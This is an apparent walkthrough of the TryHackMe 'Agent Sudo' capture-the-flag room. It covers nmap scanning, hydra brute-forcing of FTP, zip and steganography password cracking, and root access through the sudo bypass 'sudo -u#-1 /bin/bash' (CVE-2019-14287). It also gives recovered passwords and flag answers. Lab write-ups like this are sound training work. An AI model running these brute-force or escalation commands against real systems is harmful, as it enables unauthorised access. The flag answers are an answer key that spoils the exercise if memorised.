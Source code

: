 ```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28442%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28429%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28395%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28399%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28385%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28380%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

```text
steghide extract -sf cute-alien.jpg
```

![](../.gitbook/assets/image%20%28414%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](../.gitbook/assets/image%20%28397%29.png)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```text
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](../.gitbook/assets/image%20%28400%29.png)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation

```text
sudo -l
```

![](../.gitbook/assets/image%20%28428%29.png)

### CVE number for the escalation 

![](../.gitbook/assets/image%20%28381%29.png)

![](../.gitbook/assets/image%20%28433%29.png)

{% hint style="success" %}
CVE-2019-14287
{% endhint %}

### What is the root flag? 

```text
sudo -u#-1 /bin/bash
cat /root/root.txt
```

{% hint style="success" %}
b53a02f55b57d4439e3341834d70c062
{% endhint %}

### \(Bonus\) Who is Agent R?

![](../.gitbook/assets/image%20%28389%29.png)

{% hint style="success" %}
DesKel
{% endhint %}

